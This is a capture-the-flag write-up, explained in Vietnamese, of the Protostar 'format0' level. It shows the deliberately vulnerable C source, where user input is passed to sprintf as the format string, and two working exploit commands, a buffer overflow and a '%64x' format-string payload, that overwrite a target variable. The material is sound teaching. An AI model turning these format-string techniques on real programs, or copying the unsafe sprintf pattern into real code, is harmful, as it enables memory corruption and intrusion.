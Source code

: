 # FORMAT ZERO

## About

This level introduces format strings, and how attacker supplied format strings can modify the execution flow of programs.

Hints

  * This level should be done in less than 10 bytes of input.
  
  * “Exploiting format string vulnerabilities”

This level is at /opt/protostar/bin/format0

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

## Solutions

`FORMAT ZERO` giới thiệu cho chúng ta về khai thác chuỗi đinh dạng (format string). Input được lấy từ đối số thứ nhất của chương trình argv[1].

Thử thách này có thể vượt qua được với kiểu khai thác buffer overflow.

```
root@protostar:/opt/protostar/bin# ./format0 $(python -c 'print "A" * 64 + "\xef\xbe\xad\xde"')
you have hit the target correctly :)
```

Nhưng thử thách có gợi ý sẽ tốt hơn nếu như chúng ta sử dụng nhỏ hơn 10 bytes dầu vào - nghĩa là khai thác theo đúng mục tiêu thử thách muốn chúng ta học được là khai thác format strings.

`%[parameter][flags][width][.precision][length]type`

Một trong những tùy chọn giữa ký tự `%` và kỳ tự định dạng `type` là `width` - độ dài tối thiểu của dữ liệu được `printf` in ra.

VD: 

```
printf("%18X", 0x12345678);
-> ----------12345678   với '-' thay cho ' ' cho dễ hình dung
```

Bây giờ thì là cách giải quyết `FORMART ZERO` theo chuỗi định dạng.

```
root@protostar:/opt/protostar/bin# ./format0 $(python -c 'print "%64x" + "\xef\xbe\xad\xde"')
you have hit the target correctly :)
```

## Documents

<https://en.wikipedia.org/wiki/Printf_format_string>




